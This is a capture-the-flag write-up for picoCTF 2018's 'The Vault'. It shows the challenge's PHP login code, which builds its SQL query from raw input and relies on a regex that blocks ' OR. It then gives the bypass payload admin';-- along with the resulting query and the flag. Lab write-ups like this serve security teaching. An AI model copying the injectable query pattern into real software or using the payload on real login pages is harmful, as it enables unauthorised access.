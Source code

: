 # The Vault
Web - 250 Points - 1775 Solves (10/12/2018)

> There is a website running at http://2018shell1.picoctf.com:56537. Try to see if you can login!

## Solution
Upon visiting the website, we're greeted with a simple login page, which includes a link to the website's source code.

![img1 not found](images/img1.png)

Here's the source code:
```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();

    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }

?>
```

After reading the code, we can conclude that this is a basic SQL injection challenge with a small twist. A regex match blocks any attempts of using a payload with `' OR` in it, so the typical `' OR 1=1;-- ` login bypass would not work in this case.

To avoid this caveat, simply construct a payload without `OR` in it:

```
Username: admin';--
Password: [anything]
```

The server will then execute the following query:

```sql
SELECT 1 FROM users WHERE name='admin';-- ' AND password=''
```

... and grant us access to admin.

## Flag
```
picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}
```

## More Write-ups
-

